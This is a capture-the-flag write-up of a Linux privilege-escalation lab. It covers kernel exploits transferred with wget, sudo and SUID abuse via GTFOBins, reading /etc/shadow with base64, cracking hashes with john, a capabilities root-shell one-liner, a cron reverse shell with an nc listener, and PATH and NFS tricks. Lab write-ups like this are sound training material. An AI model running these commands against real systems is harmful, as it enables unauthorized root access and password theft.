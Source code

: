 
## *Enumeration*
>	- Use `hostname` command.
>	- Use `cat /proc/version` command.
>	- Use `cat /etc/issue` command.
>	- Use `python -V` command.![](basic-info.png)
>	- Using the found version to lookup a vulnerability on `exploit-db`.![](kernel-cve.png)

## *Privilege Escalation*
### *Kernel Exploits*
>	 - Get the exploit from `/usr/share/exploitdb/exploits/linux/local/` and save it in current directory for it to be hosted with a python server.![](py-server.png)
>	 - Install the exploit on the target machine using `wget`. No permissions to create a file, so traverse to `/tmp/` and install it.![](exploit-installed.png)
>	 - Use `gcc` to compile the file, and then run the output.![](priv-esc.png)
>	 - Discover the structure of the directories to find the flag.![](flag-1.png)
### *Sudo Exploits*
>	- Use `sudo -l` to list all commands that the user can run with sudo.![](sudo-commands.png)
>	- Use `find` to get he path of the `flag2` file.![](flag-2.png)
>	- Going to `GTFObins` to look for a way to spawn a root shell using `nmap`, the answer is `sudo nmap --interactive`. ![](gtfo-nmap.png)
>	- Going to `GTFObins` to get a root shell using `find`.![](gtfo-find.png)
>	- ![](find-root-shell.png)
>	- ![](frank-hash.png)
>	- The hash is `$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwoBJpphrPRJWjelWEz2HH.joV14aDwW1c3CahzB1uaqeLR1`
### *SUID Exploitation*
>	- Get users using `cat /etc/passwd | grep "home" | cut -d ":" -f 1`.![](suid-users.png)
>	- Using `find / -type f -perm -u=s 2>/dev/null` to get binaries with `SUID` bit set.![](suid-find-1.png)![](suid-find-2.png)
>	- Going to `GTFObins` to look up the found binaries.
>	- Using `base64` to read the content of `/etc/shadow` and the `/etc/passwd` files.![](suid-gtfo-base64.png)![](suid-shadow.png)
>	- The `user2` hash can be found, copy the content of both files to and save them on the attack machine in `shadow.txt` and `passwd.txt` respectively. ![](suid-shadow-passwd.png)
>	- ![](suid-user2-cracked.png)
>	- Now change the user to `user2` using the cracked password.![](suid-su-user2.png)
>	- Use the same process used to get the content of `/etc/passwd` to get the content of the `flag3.txt`.![](flag-3.png)
### *Capabilities*
>	- Using `getcap -r / 2>/dev/null` to list the enabled capabilities.![](cap-enabled.png)
>	- Using `GTFObins` to search for the found binaries to get a root shell.![](cap-gtfo-shell.png)
>	- Now Using `./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'` to open up a root shell. ![](cap-root-shell.png)
>	- Flag can be found at `/home/ubuntu/flag4.txt`.![](flag-4.png)
### *Cron Jobs*
>	- Use `cat /etc/crontab` to get the list of cron jobs.![](cron-crontab.png)
>	-  Change the script in `backup.sh` to open up a reverse shell.![](cron-backup-script.png)
>	- Change the permissions of the file using `chmod +x backup.sh`, and open a listener using `nc -lvnp 6666`. ![](cron-reverse-shell.png)
>	- Flag can be found at `/home/ubuntu/flag5.txt`.![](flag-5.png)
>	- Matt's hash can be found at `/etc/shadow`. ![](cron-matt-hash.png)
>	- Using `john` to crack the hash.![](cron-matt-pass.png)
### *PATH*
>	- Using `find / -writable 2>/dev/null` to get the writable directories.
>	- The above command prints out a lot of noise, limiting search output to `home` directory according to the hint.![](path-writable-dirs.png)
>	- Putting the `/home/murdoch` to the PATH variable using `export PATH=/home/murdoch/:$PATH`.![](path-updated-variable.png)
>	- Create a file named `thm` in `/home/murdoch` that opens a root shell, change the permissions on the file using `chmod 777 thm`.
>	- Execute the binary `test` that runs the `thm` file.![](path-root-shell.png)
>	- Search for the flag and `cat` it.![](flag-6.png)
### *NFS*
>	- Show mountable shares using `showmount -e 10.10.1.127`.![](nfs-mountable-shares.png)
>	- View the NFS configuration file using `cat /etc/exports`.![](nfs-config.png)
>	- Mount `/home/ubuntu/sharedfolder` of the target to the attack machine using `mount -o rw 10.10.247.245:/home/ubuntu/sharedfolder /tmp/targetshare`.
>	- Create an executable file that spawns a shell inside the `targetshare` directory.![](nfs-spawn-shell.png)
>	- Compile the C program using `gcc spawn-shell.c -o spawn-shell -w`.![](nfs-spawn-shell-compiled.png)
>	- Set the SUID bit on the file using `chmod +s spawn-shell`, the files should be located on the target machine in the `/home/ubuntu/sharefolder` directory.![](nfs-target-sharefolder.png)
>	- Run the `spawn-shell` executable and `cat` the flag located in `/home/matt/flag7.txt`.
>	- The flag is `THM-89384012`.
### *Capstone Challenge*
>	- Using `cat /proc/version` to get information about the system.![](final-sys-info.png)
>	- Using the found info to search in `exploitdb` for a privilege escalation exploit.![](final-explooitdb.png)
>	- Using `searchsploit` to get the location of the executable.![](final-searchsploit.png)
>	- Copy the executable to the current working directory and start a server.![](final-hosted-server.png)
>	- Use `wget` on the target machine to install the executable.![](final-exploit-transfered.png)
>	- Error when compiling the exploit. ![](final-exploit-compile-error.png)
>	- The user can't run any command with sudo. ![](final-no-sudo.png)
>	- Using `find / -type f -perm -u=s 2>/dev/null` to get the binaries with SUID bit set.![](final-suid-binaries.png)
>	- Searching on `GTFObins` for a way to spawn a shell using these binaries.![](final-gtfobins-base64.png)
>	- Using `base64` to read the `/etc/shadow` file.![](final-shadow-dump.png)
>	- Use the same process to read the `/etc/passwd` file.![](final-passwd-dump.png)
>	- Save `missy`'s hash and `passwd` content to be used with `unshadow`.
>	- Using `john` to crack `missy`'s hash.![](final-missy-password-cracked.png)
>	- Switch to `missy` user.![](final-user-missy-accessed.png)
>	- Search for `flag1.txt` and cat its content.![](final-flag1.png)
>	- Searching for `flag2.txt` with user `missy` doesn't return output, most probably located in `root` home directory.![](final-find-flag2.png)
>	- Using `sudo -l` to get the commands that the current user can run with sudo.![](final-missy-sudo.png)
>	- Looking at the `find` command in `GTFObins` to spawn a root shell.![](final-gtfobins-find.png)
>	- Using the above command to gain a root shell.![](final-root-shell-gained.png)
>	- Searching for `flag2.txt` and `cat`ing it `THM-168824782390238`.![](final-flag2.png)
>	- Trying other privilege escalation vectors.
>	- Checking capabilities with `getcap -r / 2>/dev/null`.![](final-cap-getcap.png)
>	- Using `GTFObins` to search for the found binaries to get a root shell.
>	- Didn't find anything for the found binaries.
>	- Looking at the `crontab` for possible exploits.![](final-crontab-out.png)
>	- Checking for shared directories to be exploited.![](final-nfs-showmount.png)
>	- Nothing to be found.